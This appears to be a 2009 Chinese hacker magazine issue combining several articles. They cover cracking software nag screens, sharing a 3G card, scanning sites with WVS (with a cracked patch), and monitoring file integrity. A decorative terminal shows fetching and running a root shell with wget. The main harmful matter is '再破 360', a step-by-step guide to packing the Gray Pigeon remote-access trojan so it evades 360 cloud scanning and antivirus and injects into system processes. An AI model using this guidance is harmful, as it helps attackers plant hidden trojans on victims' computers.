这里所指的 Nag 窗口通常是比消息框更为复杂的窗口，例如用 DialogBox 之类的函数创建的窗口。【例 3】中运行程序你会发现有一个延迟窗口出现，将持续 10 秒钟，点击上角的关闭按钮不起作用，要等时间到后点“Continue”按钮才能进入主程序。

这个 Nag 窗口比一般见到的 MessageBox 之类的窗口要复杂得多，是一个模态窗口，应该是 DialogBox 之类的窗口。若真是这类窗口，应该调用 EndDialog 函数去关闭它。

该程序是用 C 语言编写的，其实对于 C 类程序，可以直接用 16 进制编辑器（如 WinHEX、UltraEdit 或 Hex Workshop 等）将 Nag 窗口文本信息附近的 FFFF82（或 FFFF80）第一个 FF 改为 E9（或 7E）即可。

如图 2，为【例 3】用 Hex Workshop 修改的效果，共有 9 个，修改任意一个均可。它的原理是由于改变了 DLGITEMTEMPLATE 结构中默认的类 ID，导致 Windows 无法识别而不显示对话框。对于其它语言类的程序，通常是将 Nag 窗口文本信息前的 C0 改为 20。

### 3、VB 搜索特征代码法

(1) VB 程序中，Nag 窗口可以通过很多种方式来创建，最常用的是通过 Form.Show 事件来实现，其相应的汇编代码如下：

```assembly
0040203D FF92BC020000         call    dword ptr [edx+2B0]
```

快速定位的方法是在 OllyICE 中“查找→常量→2B0”。以上的寄存器不一定必须为 edx，也可以是 ecx、eax、edi。将以上调用窗口的 call 整个 nop 掉，即可去除 nag 窗口。又或者考虑堆栈平衡，直接跳过，代码如下：

```assembly
0040203D    83C424 add esp, 00000024
00402040    EB01   jmp 00402043
```

## 非安全·黑客手册

NOHack，记录本土黑客历史，推动黑客文明进程。投稿：nohack@21cn.com

2009.09


```bash
login: nohack
password: **********

NOHACK Login

nohack@H4CK:~$ ssh nohack.cn
Connecting to nohack.cn...
Successful - Need authorization
login: hack
password: ***

NOHACK

hack@NOHACK:/tmp$ cd /tmp
hack@NOHACK:/tmp$ wget -o http://nohack.cn/getrootshell.gz
HTTP request sent, awaiting response... 200 OK
100% [====================================>] 1024 107.0K/s
hack@NOHACK:/tmp$ gzip -d getrootshell.gz
hack@NOHACK:/tmp$ chmod +x getrootshell
hack@NOHACK:/tmp$ ./getrootshell
hack@NOHACK:/tmp# whoami
hack
hack@NOHACK:/tmp# id hack
uid=0(root) gid=0(wheel) group=0(wheel), 5(operator)
hack@NOHACK:/tmp# cd /NOHack/200909
hack@NOHACK:/tmp# cd 内刊策划
hack@NOHACK:/tmp# ls
hack@NOHACK:/tmp# cd /最新漏洞0Day
hack@NOHACK:/tmp# ls
hack@NOHACK:/tmp# cd /DVD内容介绍
hack@NOHACK:/tmp# ls
hack@NOHACK:/tmp# exit
nohack@H4CK:~$ echo $BYE
Goodbye.
nohack@H4CK:~$ logout
```

沙场老将 Hacker 再战江湖 2 无线攻击技巧系列之 3：完结篇在现有的基础上再谈全黑客手册技术的下一次更新计划（续 2）

DZ 7.0 0day 漏洞利用实战 浅析 PHP+MYSQL 注入漏洞原理及生成时差分类利用 月光下的 IE 漏洞实验室 深度解析笔记

SuperSite 6.0 正式版关联 webshell 的 0day 谁 magic_quotes_gpc=off 下绕过内嵌查询 站在夜店门口看小二 实例攻破 10CMS 内容管理系统 0Day

清风网络 2010 论坛版 Moxie 于 BlackHat 大会展示全能工具 OWASP 菜鸟网络入门实战完整版 国外黑客视频实战精解

高级黑客对抗训练教程 非安全咖啡馆 江南系列讲座

### 写在前面

## 九月九的酒

又是九月九，重阳夜难聚首，思乡的人儿飘流在外头。
又是九月九，愁更愁情更忧，回家的打算始终在心头。
走走走走走啊走，走到九月九，他乡没有烈酒，没有问候。
走走走走走啊走，走到九月九，家中才有自由，才有九月九。
亲人和朋友，举起杯倒满酒，饮尽这乡愁，醉倒在家门口……

印象中已经好久没有写过编辑部的故事了，漂流在外，思乡心切，牵挂那个她……又是一个轮回九，各地学子忙奔走，校园宿舍有美颜，别忘 QQ 号码留。各位奔赴各地学府即将入学的朋友们，是不是带着兴奋的笑容从各式各样的交通工具上下来疯狂地飞奔而进学校呢？注意，不要超过 70 码哦，不然你妈妈叫你回家吃饭……

校园是青春的聚集地，每年的运动会上，激昂的音乐、热力的啦啦队 MM、飘逸秀发的女运动员……飞扬的是青春，让汗水流得更多些吧！

料想许多学生读者们是第一次离家这么远吧？为了自己的理想，拿着行李，“背井离乡”，投身到知识的海洋。也许第一次出远门觉得终于可以离开家人的控制，有了自己自由的时间支配，想睡上铺就绝不睡下铺，想通宵上网也没有人再打电话催……

虽然要在异乡学习 3-4 年，但这期间还有许多假可以回家，借这次 10 月国庆的 8 天长假，回去向家人（佳人）汇报一下在学校一个月的感受吧。也许随着时间的推移，待到毕业前夕，又会重演高三的离别一幕，不变的是，又一个轮回九月。

在异乡呆久了，特别想念家乡的山、水、人，那是从小生活的地方，生活习惯不是短时间就能改变的，只能适应。七七牛郎会织女，八月中秋大团圆，九九重阳登高处，十月国庆扬国威！大家努力吧，大学是个小社会，可以看做是一个模拟社会，究竟你能在里面获得什么，一切源于你！

感慨了这么多，以后是不是都以诗词歌赋为开场，先有其景，再添其声，讲述你自己的故事。如果大家也有此意，欢迎到这个版块来倾诉倾诉，感情问题、人生问题、学习问题，什么问题都可以，专家门诊，挂号排队……（编辑：眼镜猴）

### 新闻时评

## 云时代的操作系统

2009 年，许多有关“云”的新词汇相继出现，除了我们已经知道的“云计算”、“云安全”和“云病毒”等，现在又出现了“云操作系统”的概念。

“云操作系统”即采用“云计算”、“云存储”方式的操作系统，它的核心建立在“云计算”上，一般是指分布式计算，途径在各数据处理中心设置的计算机服务器群，将“云计算”作为一种服务，提供用户使用。“云存储”亦类似：把用户的数据存储在“云网络”中，从而避免使用本地资源进行存储，实现异地使用存储资源的目的。

云操作系统的鲜明特点是“网络化”，将“云计算”作为任务发送给各个处于不同地理位置的服务器处理，得到结果后返回。这种网络是一种“云网络”，有内存的拓扑结构，以使得能最有效地利用服务器的计算性能，为用户提出的“云计算”任务提供高效的计算服务。

“网络化”操作系统的出现，使得用户的存储资源分布在各大服务器上，一是保证了脱离本地机器时，仍能使用自己的存储资源，二是可以方便地与他人共享。

看完以上资料，越来越让人迷糊，貌似“云操作系统”有点像远程客户端的作用，但其功能更强大！通过它可以利用网络调用远程机的硬件？那我买台低端电脑就可以通过“云操作系统”提升自己电脑的性能？看来这个问题得好好研究下了，多看看资料。

前一段时间微软在其专业开发人员大会（PDC）上预发布了自己的“云操作系统”Azure，其开发代号为“Red Dog”。同时，Azure 也是一个开发环境，方便开发者为云计算开发相关的应用。

由此可见，Azure 并不是一个传统的操作系统，至少跟 Windows 或者 Linux 这种部署在某一台物理服务器上的系统不是一个概念。Azure 运行于数据中心的硬件基础设施之上，能够调动各种软硬件资源，充当着“整个数据中心操作系统”的角色，从某种意义上说，Azure 是一个虚拟的操作系统。

不过，Azure 内部包括了操作系统、基础设施服务以及应用等各种组成部分，并且每部分能够被单独管理，这使得用户能够快速升级其应用或者重新启动计算资源。同时，Azure 混合了多个层来提供完备的“云计算”平台。

在 Azure 里面，除了操作系统的角色，还包括存储服务、虚拟化和桌面开发环境。存储服务相当于传统操作系统里面的文件系统；虚拟化则简化了分布式资源的管理；而桌面环境则是运行于桌面上的 mini “云环境”。

微软 Azure 的推出，让数据中心人员有机会将其 AD（活动目录）从数据中心内部扩展到数据中心之间，从而真正构筑一种无缝迁移的“云计算”环境。“云操作系统”将实现无病毒，数据安全，存储方便，共享方便，软件发布安全方便，计算资源可以动态扩充的多种优点的网络服务。未来的 IT 业，将是“云计算”的产业！


## 功夫熊猫 Hacker 系漫游记 2


图 赤龙

> No matter what you do
> That seed will grow to be a peach tree
> You may wish for an Apple or an orange
> But you will get a peach
> ——乌龟大师

在一个小风嗖嗖、桃花飘零的月夜，阿宝又一次来到乌龟大师仙逝的桃树下，追思大师的点点滴滴。回想起乌龟大师对自己的知遇之恩，阿宝不禁感动落泪。

想当初，乌龟大师坚持己见，力排众议，指定阿宝为神龙大侠的衣钵传人。一幅幅画面在阿宝脑海中快速回放，一切仿佛就在眼前。从神龙选秀 PK 到现在，短短的时间中，阿宝的人生犹如突然打开了潘多拉盒子，完全没有准备地实现了人生的三级跳，且一下冲到了别人只能望其项背的顶点。

一切太过突然了，让阿宝难以消化，所以它常常坐在桃树下反思，和空气中的乌龟大师进行心灵的交汇。如果说师傅 Shifu 是阿宝的功夫启蒙，那乌龟大师则是阿宝心灵的鸡汤。

如果没有乌龟大师的神龙无字秘籍；如果没有鸭子老爸说出面条靓汤没有祖传秘方的秘密；如果没有师傅的因材施教；如果没有阿宝的勤学苦练；如果阿宝没有对这些东西融会贯通……阿宝是不可能打败雪豹太郎的。

而网络又何尝不是这样的呢？要学好网络，必须要搞定枝枝蔓蔓的基础知识，然后把这些枝枝蔓蔓连结成一张网，只有融会贯通才能更上一层楼。

博大精深的网络会给阿宝带来什么呢？阿宝从神龙大侠的光环里面走出来，重新开始一段新的征程。

### 更上一层楼

上一次讲述了太极虎师姐为熊猫阿宝演示了用 IIS 6.0 漏洞获取 webshell。虽然获取了 webshell，但是阿宝意犹未尽，还想获取服务器的权限，一直追着师姐问个究竟。

### webshell

午饭过后，阿宝迫不及待地追问：“师姐师姐，吃饱啦？快点告诉我接下来的知识吧。接下来的内容我估计会更加精彩，你刚才说那个‘一句话木马’是什么来着？有啥作用啊？一句话就能变出一头马啊？不可能吧？”阿宝满脑子问号！

“汗！你……”太极虎师姐狂晕倒地，四脚朝天，让熊猫气得死过去来！

“怎么啦，师姐

## 轻松实现3G、EDGE等无线上网卡的网络共享

原点首语：话说这次把“酷玩”这个版块合并到我这边来了，所以这期“Q版黑客”里面多了些关于QQ方面的文章。小编我第一次以个人标准去取舍此类文章，实在不知道自己判断的是否正确。另外，话说在八月有个民间技术峰会，我想大家都应该心知肚明吧？读者中有去参与了吗？有什么好的新闻和技术不要忘了和大家一起交流哦！

从本文你可以学到：
- 3G、EDGE等无线上网的共享

现在 3G 已经逐渐在全国开始商用，对于我们这些普通人群来说还是有点贵，要是能多台电脑同时共享使用一个无线上网卡，这将会为我们省去不少的费用。

虽然网络上有一部分关于无线上网卡共享的文章，但是都比较的零散，这里我就详细的教大家如何实现无线上网卡（理论上是支持EVDO、TD-SCDMA、WCDMA、CDMA1X、EDGE、GPRS等采用拨号方式的无线上网卡）的网络共享。

## 第一部分：准备工作

### 一、准备的设备

- 1、交换机或者路由器一台，要是只有两台电脑共享，可直接使用“交叉网线”；
- 2、网线若干米；
- 3、无线上网卡一块。

### 二、设备的安装方式

- 1、如果是交换机，请将各机器的网线直接插入到交换机的端口即可；
- 2、如果是路由器，请将各机器的网线插入 LAN 口，一般就是路由器上标明有数字“1、2、3…”这样的口（千万不要插入 WAN 口，因为我们只使用路由器的交换功能）；
- 还有就是关闭路由器的 DHCP 功能（原因我们在后面讲解），在浏览器里面输入 http://192.168.1.1/ 或者 http://192.168.0.1/ 进入路由器的管理界面，然后将路由器的“DHCP 服务器”设置为“不启用”，如图 1。
- 3、如果只共享两台计算机，就可以使用交叉网线，将两台机器的网卡使用网线对联即可。

> **小知识：何为“交叉网线”？**
> 交叉网线的作用主要就是让两台电脑只插一条网线而实现文件共享互传，让网线具备“数据收发的转化功能”。其两端的水水晶头接法不一样，一头是 568A 的线序，另一头是 568B 的线序。
> - 568A 的线序：绿白、绿、黄白、蓝、蓝白、黄、棕白、棕
> - 568B 的线序：黄白、黄、绿白、蓝、蓝白、绿、棕白、棕
> 更多相关信息可以访问：http://429006.com/article/Technology/1168.htm

## 第二部分：网卡设置

### 1、主机的设置

因为无线上网卡的品牌众多，所以请自行安装好相关网卡的驱动程序，我在这里采用的是一块 USB 接口的中兴 EDGE 网卡做演示，安装好驱动之后就可以在“网络连接”这里看到用于上网的拨号程序，如图 2。

在拨号程序上按鼠标右键，打开“ZTE Wireless Terminal”的属性，然后选择“高级”，找到“Internet 连接共享”，勾选“允许其它网络用户通过此计算机的 Internet 连接来连接”（如果你有多块网卡，那么就需要选择你连接路由器或者交换机的那个网卡，默认为“本地连接”），如图 3。

点击“确定”之后，你再打开“本地连接”就可以看到其 IP 信息已经被自动修改为 192.168.0.1，子网掩码为 255.255.255.0，如图 4。

最后打开“网络连接”的拨号连接或者桌面上的拨号程序，如“ZTE EDGE Wireless Terminal”，进行拨号即可开始进行网络遨游了。

但是需要注意一下，很多网卡当你断开拨号程序之后就会自动删除“网络连接”中的拨号连接，大家需要记住拨号程序中的“账号”、“用户名”、“密码”，然后自己新建一个，再使用新建的这个进行拨号。还有部分网卡如果使用安装后的程序拨号，会把我们的设置初始化，所以建议直接使用“网络连接”的拨号连接。

### 2、客户机的设置

因为我们已经组建好了交换网络，所以只需要将客户机的网卡 IP 信息填写正确即可进行网络共享上网了。从桌面依次选择“开始”—“设置”—“网络连接”，打开“本地连接”的属性，双击滚动框中的“Internet 协议 (TCP/IP)”，然后将 IP 设置为“自动获得 IP 地址”，如图 5。

如果你是使用路由器联网，那么将直接从路由器的 DHCP 服务中获取路由器的 IP 地址，而不会获取无线上网卡所在主机的 IP 信息，所以必须关闭路由器的 DHCP 功能。

要是你不想关闭路由器的 DHCP 功能，也可以通过手动配置 IP 信息来实现。从桌面依次选择“开始”—“设置”—“网络连接”，打开“本地连接”的属性，双击滚动框中的“Internet 协议 (TCP/IP)”，然后将 IP 设置为如图 6 的信息。

在填写 IP 地址的时候，IP 要跟主机设置的 C 段一致，还有就是一定要写上正确的 DNS 服务器的 IP 地址。如果不写的话就只能上 QQ，不能开网页。

图 6 中为山东省移动的 DNS，这里提供一下部分其它地区的移动 DNS：
- 山东移动 218.201.96.130 211.137.191.26
- 广州移动 211.136.20.203
- 深圳移动 211.136.18.171
- 南宁移动 211.136.17.107
- 成都移动 61.139.2.69

## 第三部分 总结

其实共享的原理很简单，就是利用 Windows 自助的网络共享，让多台机器通过路由器或者交换机进行连接，通过正确的 IP 设置来实现共享上网。

在实际操作过程中，各个无线上网卡的拨号程序不一样，但是始终会在“网络连接”里面出现拨号的连接，多动一下脑筋就可以了。我已经测验了有 EVDO、CDMA 和 EDGE 这几种网卡，均能实现共享上网，希望各位也能测试成功，省点网络费用。

### 编辑点评：

无线网络的共享已经不再局限于有线端接入而无线端共享，现在利用 3G、EDGE 的介入，无线网络更是蓬勃发展起来。

---

## WVS：自动化的Web应用程序安全测试工具

从本文你可以学到：
- 关于 WVS 更多的技巧

WVS 是一个自动化的 Web 应用程序安全测试工具，它利用类似于搜索引擎完整的网络爬虫技术、遍历网站页面、分析每一个页面中可以输入数据的地方，进而尝试所有的输入组合。它可以检查跨站脚本攻击 (XSS)、SQL 注入攻击、代码执行、目录遍历攻击、文件入侵、脚本源代码泄漏、CRLF 注入、PHP 代码注入、XPath 注入、LDAP 注入、Cookie 操纵、URL 重定向、应用程序错误消息等漏洞。总而言之，WVS 是一款相当好用的网站漏洞扫描器，其主界面如图 1。

左侧的工具栏是实现 WVS 功能的操作主体，其中“Web Scanner”是实现网站扫描的主界面，“Tools”文件夹下是 WVS 工作的重点，包括地址爬虫、HTTP 嗅探器和 HTTP 暴力破解器、盲注工具等。“Web Services”文件夹主要用来探测一些网站服务方面的漏洞，在平常我们不是很常用到。“Configuration”文件夹用于对 WVS 进行配置，包括代理扫描的配置和对 WVS 扫描参数的功能配置。“General”文件夹是实现一些升级和帮助文档的功能。

在使用 WVS 之前，我们最好先将 WVS 的补丁下好，打开“General”—“Program Updates”，在上方有个绿色的按钮“Check for Updates”。点击后 WVS 会自动寻找更新补丁包，然后再点击“Download and Install Updates”就会自动下载并更新补丁了。但是要注意，旁边的“Download and Install New Build”是让 WVS 升级到最新版本，如果这样升级的话，破解补丁就没有办法使用了。

WVS 的基本使用也很简单，点击工具栏上的“Web Scanner”，在“StartURL”中填入你要扫描的网址，右边的“Profile”选择默认值，然后点击绿色的“Start”就可以自动开始扫描了。

扫描结束后，WVS 会自动记录下网站每个页面的详细漏洞，如图 2。从图 2 中我们可以看到，左边的“Site Structure”下记录的是 WVS 爬虫爬过的网站的总体结构和所有页面，上面的“Alerts”记录的是漏洞数量：红色是严重漏洞，包括 SQL 注入、XSS 跨站等漏洞；黄色的是一些中级漏洞，比如可能存在 COOKIES 欺骗等；蓝色的是一些敏感信息可能泄露，或者一些坏链接的漏洞；绿色的则是一些最低级的漏洞。

假设我们要查看一个漏洞，点开漏洞树状结构，在参数上按鼠标右键，选中 **Edit with HTTP Editor**，如图 3，这样就会到“HTTP Editor”界面，在“URL”中显示的就是 SQL 注入地址。把后面的一串“+and +...”去掉，直接剩下“参数+数值”的形式，这样就是一个注入点了，如图 4。

扫描网站是 WVS 最强大的功能，而且我们还可以为它如虎添翼，自己 DIY 一些最新漏洞的扫描参数进去。例如，QQ 大盗盗完 QQ 号后，一般都会在 web 目录下生成一个 qq.txt，我们要实现的就是让 WVS 每扫描到一个网站目录，就自动搜索目录下是否存在 qq.txt，如果存在就显示在漏洞栏里。

具体功能按这样的流程设置：创建新漏洞——新建规则——将新漏洞加入新规则中——使用新规则扫描。

- 1、创建新漏洞：依次选择“Tools”—“Vulnerability Editor”，弹出漏洞编辑窗口，我们要实现的功能在 Directory checks（目录检查）下。右击，弹出 New Vulnerability，在“name”中填写“Look For qq.txt”，“Description”中填写“Look For qq.txt”，选择“XML 文件自动生成”，单击“ADD”就可以生成新漏洞了。
- 2、创建新的漏洞条目：右击“Look For qq.txt”，点击“Add vulnerability item”，把右边的“Name”中的“New Item”换成“qq.txt”，“value”换成 /qq.txt。
- 3、点击左上角的“保存”按钮，保存新漏洞成功。现在要重启 WVS，新漏洞才能被添加到漏洞库中。
- 4、关闭窗口，来到主界面，点击“Configuration”中的“Scanning Profiles”，在中间上面有个像白纸一样的新建按钮，点击后取名为“qq.txt test”，如图 5。
- 5、只选中“Look For qq.txt”，并单击上面的保存按钮，将新漏洞添加到新规则中。点击保存按钮的同时会弹出“Profile 'qq.txt test.profile' already exists Overwrite”，点击“YES”即可，如图 6。
- 6、下面就使用我们创建的新规则扫描，我在自己的 IIS 目录下放置了一个 QQ.TXT 文件，扫描结果如图 7。

如何自己设置漏洞的危险值呢？重新打开漏洞编辑面板，点击“QQ.TXT”，

## 有对比才有鉴别

Reduta

- 从本文你可以学到：
- 多种方法实现对文件的监视

一个貌若天仙的女人和一个奇丑无比的女人都会给人留下难以忘怀的记忆，这是为什么呢（小沈阳狂呼：请不要用我的专利）？可能会说因为她特别。是的，人的大脑的确对特别的东西感兴趣，但是此现象的本质是因为有一般的人作对比，才显得“她们”特别，其实就是一个简单的对比思想。

做安全用这样的思想也是很有必要的，Vista 出来 N 久了，但是我还是喜欢“XP”，在 Vista 中引入了一种有趣的机制，就是“code integrity”（代码完整性），这个功能其实就是将对比思想具体化、傻瓜化，在“XP”中我们依然可以引入这种方法！

### 一、要进行对比的对象是什么？

拿破仑曾说过——没有目标的叉子不是好叉子（编辑注：啥时候说的？），在做这件“鸟事”（菜鸟的事）之前我们需要明白 Windows 系统中的哪些文件需要进行对比！如果让我去放马，我肯定会将它们放到 System32 文件夹下，正所谓“浑水好摸鱼”。如果让我起一个名字，肯定是一个系统应用程序的名字，当然还得突破 WFP 机制，只要搞定 DLLCACHE 文件夹就可以了，所以 DLLCACHE 文件夹也是我们需要对比的。

另外，大家肯定发现了“任务管理器”的一个缺陷——看不到进程的路径，所以如果我们将木马放到 Windows 目录下一起一个诸如 svchost.exe 之类的名字，也可以起到一定的隐藏作用。

网上很多非 IT 专业的老年人（30 岁以后的），一般计算机知识比较“非洲”，他们不可能懂得去找杀毒软件，一般也就用个 360。360 有个不好的地方，就是对“**C:\Program Files\Internet Explorer**”这个文件夹照顾不周，有些黑客就是将程序拷贝到这个文件夹，然后将文件重命名为 update.exe，所以这也是一个危险目录。

总的来说，我们要实现对比的地方就是**系统目录、Windows 目录及 Internet Explorer 目录**！当然，上面说的都是重点防区，我们为了实现比 code integrity（代码完整性）更“牛X”的功能，可以将系统所有的 DLL、EXE、进程等都进行登记！

### 二、发挥上古时代的法术——DOS 命令与文件对比思想

网上到处都在盛传 dir 命令与 fc 命令打造文件检验系统的方法，这种方法之所以在 IA32 的年代还流行，原因很简单，操作方便，不用使用其它工具，并且速度快。不过这种方法也有缺陷，在下面我会做说明！

#### 1、玩电脑也带照相机

将如下代码保存为 **C:\dllexe\dllexe0.bat** (最好放到系统盘)：

```batch
@echo off
for /f "skip=1" %%i in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%i\*.dll">>dll0.txt
for /f "skip=1" %%a in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%a\*.exe">>exe0.txt
```

执行后，就可以将系统内所有盘符的 dll 和 exe 文件登记到 dll0.txt 和 exe0.txt 了，然后编写如下代码保存为 **c:\dllexe1.bat**。

```batch
@echo off
for /f "skip=1" %%i in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%i\*.dll">>dll1.txt
for /f "skip=1" %%a in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%a\*.exe">>exe1.txt
```

如果用其它工具进行对比，这里可以不加下面的代码：

```batch
fc dll1.txt dll0.txt >change.txt
fc exe1.txt exe0.txt >>change.txt
notepad change.txt
```

当系统出现一些异常，比如出现陌生端口， we 就可以运行 dllexe2.bat 或者将这个工作使用 at 命令添加任务，隔一段时间就检测一次！

#### 2、人要长的帅

上面的方法好像还可以用，不过我们每天都可能向系统中加入一些新的程序，这时候我们可以使用沙盒运行程序，或者在虚拟机中执行。当然，如果你足够确信程序是“鲜美”的，我们就不用这么麻烦了，直接安装或者执行即可。不过这时候我们的系统会新增加一些 DLL、EXE 文件，这样我们可以使用下面的方法，实现同步升级！

因为上面的代码是将计算机中所有的 dll、exe 文件都进行拍照，所以代码后面使用的是 >> 符号，如果系统更新了，我们需要重新将它写入！把如下代码保存为 **c:\dllexe\update.bat**：

```batch
@echo off
type null>dll0.txt
type null>dll1.txt
call dllexe0.bat
```

将如下代码保存为 **c:\dllexe\右键.bat**：

```batch
@echo off
reg add "HKCR\*\shell\dllexe" /ve /d "dll & exe 更新照相" /f
reg add "HKCR\*\shell\dllexe\command" /ve /d "c:\dllexe\update.bat" /f
reg add "HKCR\Folder\shell\dllexe" /ve /d "dll & exe 更新照相" /f
reg add "HKCR\Folder\shell\dllexe\command" /ve /d "c:\dllexe\update.bat" /f
```

执行批处理后，我们的右键菜单中就多出来了“dll & exe 更新照相”的选项，这样以后就可轻松地搞定更新了！

#### 3、fc 命令已经落后了

一般来说，fc 命令有点不能胜任我们上面的任务，所以我们需要借助第三方工具（上面只是一个思路，大家可以去掉批处理中的 fc 命令部分）。首先用 VC6.0 中自带的工具——Windiff 来辅助我们完成这项菜鸟计划。

单击“File”菜单，然后选择“Compare Files”，选择要比较的文件进行比较就可以了！如果你没有安装 VC6.0，向大家推荐 UltraCompare，这个小工具显示的比较好，可以很快定位出两个文件中不同的地方（这个比 fc 命令强大，它可用不同的颜色显示文件中不同的部分），另外一个不错的功能就是我们可以将程序添加到右键中方便对比。

### 三、个人计算机及网站加密对比

上面的方法看上去不错，如果你很细心，一眼就看出它的破绽了，因为上面的方法是建立在系统中恶意程序新增基础上的。也就是说，如果木马或者后门程序可以突破 WFP 机制，替换掉系统应用程序，那么上面的方法显然是行不通的，也就是说我们的思维只限制在增加了。

对于一般事物来说常见的有三种变化，第一种是增加了某些东西；第二种是减少了某些东西，这些都容易判断；最难的就是第三种，冒充了某些东西！这可能才是 Vista 使用 code integrity（代码完整性）的原因，这可以有效的防范 Rootkit 类似的攻击！对付冒充的问题，我只能使用校验加密 HASH 值的方法来识别，这种方法不仅适用于个人计算机，同样适用于 Web 服务器，它的作用就是防止程序冒充或者说被替换。

尽管有人说王小云大师破解了 MD5，可是到现在我还没有看到一款真正非验证实现 MD5 解密的软件。可能有，但是没有人会将这么宝贵的东西共享出来！所以 MD5 破解只限于小范围而已！对于这种方法的对比，我们需要借用工具——fciv.exe 和 fsum.exe。

#### 1、fciv.exe

这是微软的一个小工具，功能还不错，它可以将某个文件夹进行 MD5 加密，当系统被更改的时候我们可以用它来对比，从而找出被替换的文件！程序有很多参数，大家可以在 CMD 下输入 fciv /? 查看，我只说实用的。

- (1) 建立系统安全状态下的快照
  在 CMD 下输入 `fciv.exe c:\windows -r -xml system.xml`，-r 是进行递归运算，-xml 是生成 xml 文件，后边接着生成的 xml 文件名。
- (2) 对比文件
  当我们的系统出现异常或者是和你我一样每月检测一次系统安全的习惯，就可以在 CMD 下输入命令：`fciv -v -xml system.xml` 来进行校验了！

#### 2、fsum.exe

这个工具比 fciv.exe 强大得多，它可以计算多种 hash 值，连 Winrar 类似的 CRC32 校验方法都有，大家可以在 CMD 下输入 `fsum /?` 查看详细的使用方法，我还只是说实用的！

- (1) 建立系统安全状态下的快照
  在 CMD 下输入 `fsum -r -dc:\windows *.* > 1.txt`，这个程序的速度远远超过前面的 fciv.exe，看来牛人真的不一定都喜欢钱啊（哈意思，小编我没搞明白？）。程序默认使用的是 MD5 算法，当然我们也可以用其它参数指明它的算法！
- (2) 对比文件
  在 CMD 下输入：`fsum -dc:\windows -jf -c f:\玩壳\1.txt`。

提示有两个文件 failed，也就是 MD5 不一样，对于这样的文件你需要注意，因为系统盘随时都有垃圾信息产生，所以我这里才会提示 failed！建议大家使用 fsum.exe，这个工具不仅支持的算法多，而且速度快。

学会上面的对比方法后，如果你是一个 WEB 管理员，可以快速找到新增的网马文件或者说找到被写入 webshell 内容的网站文件！

### 四、发散思维

上面阐述的是一种对比的思想，还没有更有具体的利用方法呢？现在有防火墙、有杀软，但是好像一直没有一个比较好的预警系统，HIPS 软件不错，但是得保证你是一个老鸟才可以。所以我们可以通过上面的方法制作一个预警系统，通过 VBS 脚本打造一个死循环，随时监视、对比文件的大小，如果有改变立刻弹出提示！另外，思想是灵魂，我们可以将系统服务、端口、DLL 文件等 N 多信息进行登记，通过对比迅速找到改变的文件！

因为开档，所以怕冷，特别想找一些朋友共同学习——论坛 ID：Reduta!

**编辑点评：**
从文笔上看得出作者说话很幽默，但也能从其中感觉到作者的经验不够。事实上按作者所写的方法来看，你会发现这是一个比较大的工程，至于为什么？读者们自己去体会吧！另外，作者下次投稿的时候最好先看下自己写的话，有几处我想了半天都没领会出意思来呢？难道我是 outman?

---

## 再破 360 安全卫士

- 从本文你可以学到：
- 如何突破 360 安全卫士

现在对杀毒软件的研究已经比较透彻，所以对如何进行木马的免杀也驾轻就熟。可是现在是杀毒软件好过，其它的安全工具反倒比较难过。比如大名鼎鼎的 360 安全卫士，一旦服务端运行，它的监控功能就会提示，而且现在该软件又加入了一个“云查杀”功能，让人好伤脑筋。所以今天我们就再破 360，让木马服务端顺畅的运行。

### 一、了解启动方式

其实如何过 360 的监控功能，一切都已经进行了详细的介绍，而且那些方法目前为止依然适用，现在最让人头疼的就是“云查杀”。首先我们来配置一个服务端程序，木马依然选择最常见的灰鸽子。

运行灰鸽子的客户端程序，点击工具栏中的“配置服务程序”按钮。其它的配置信息这里就不再讲解，主要说一说“启动项”标签以及“安装选项”中的内容，因为这些选项和后面要用到的一个工具有关。

我们都知道，灰鸽子木马针对不同版本的 Windows 系统，采用了两种完全不同的启动方法。比如在所有的 Windows 系统中服务端程序都可以使用注册表进行启动，而只有在 NT 内核的系统中才能采用系统服务这种方法进行启动。所以现在我们要做的就是，将服务端程序对启动信息的设置记住。

比如木马默认的启动服务名称是 Gray Pigeon_Hacker.com.Cn，而注册表启动项的名称就是 Hacker.com.cn.Exe，也就是服务端程序的文件名称。

如果你使用的是其它木马程序，也只需要搞清楚该木马默认的启动信息内容即可。另外，还需要记住“安装路径”中的服务端程序以及在系统中的安装路径和程序名称，比如默认的安装路径就是 $(WinDir)\Hacker.com.cn.exe。

### 二、快速过“云查杀”

现在运行突破 360 的工具 Additional Protector，首先通过鼠标拖拽服务端程序到程序的“文件名”选项，接着在“受保护 EXE 文件”中输入服务端释放的文件，这里我们就输入“\windows\Hacker.com.cn.Exe (注意开头没有系统盘符)”，而运行方式则采用默认的“正常”。

至于“保留附加数据”选项，则可以根据自己的需要进行选择，然后选中“注册系统启动”、“Anti- 云查杀”和“自我保护”三个选项，利用“注册系统启动”可以采用全新的方式，让服务端程序自动随机启动运行。“Anti- 云查杀”选项可以让服务端躲过“云查杀”的检测，而“自我保护”可以让服务端文件不被轻易的删除。

现在选中“卸载指定服务”选项，在输入框中键入“GrayPigeon_Hacker.com.cn”即可，同时选中“删除指定注册表项”选项，然后在后面的输入框里面根据启动项键入服务端注册表启动项的详细信息。

所有设置完成后，点击“Pack Pe”按钮就可以完成操作了，这样生成的服务端程序，不仅可以躲过 360 安全卫士的监控，也可以躲过主流杀毒软件的分析扫描，从而让老一代的远程控制木马焕发新生。

### 三、重新设置插入

除了上面介绍的这款工具外，该作者还发布了另一款工具 Memory Injector，通过它可以把任何可执行文件注入到指定进程。同样还是用灰鸽子来进行演示，只不过配置服务端的时候不要选择线程插入。

现在运行 Memory Injector，通过鼠标拖拽服务端程序到“文件名”输入框中，接着选择“注入其它进程”选项。

在窗口中的“默认示范”选项中，程序为我们提供了三个不同的选项，分别是“注入 IE 进程”、“注入 Svchost 进程”和“自定义设置”。如果用户选择的是前两种选项，那么程序就会自动在“设置”中进行设置。如果用户选择的是“自定义设置”选项，接下来就可以按照自己的实际需要，对“选择目录”和“注入文件”选项进行设置即可。最后在“压缩引擎”列表选择一种压缩方式，点击“Pack Pe”按钮就能让文件插入到指定的进程中。

**编辑点评：**
现在的工具真是方便，随便一个工具就可以“造福”好多朋友。除了本身知识的积累外，自己阅历的增长也是一种财富哦！你知道别人不知道的，那就是你的长处。

---

## host 域名劫持反 360 “云查杀”

图 黄孙焕

- 从本文你可以学到：
- 小技巧对付 360 “云查杀”

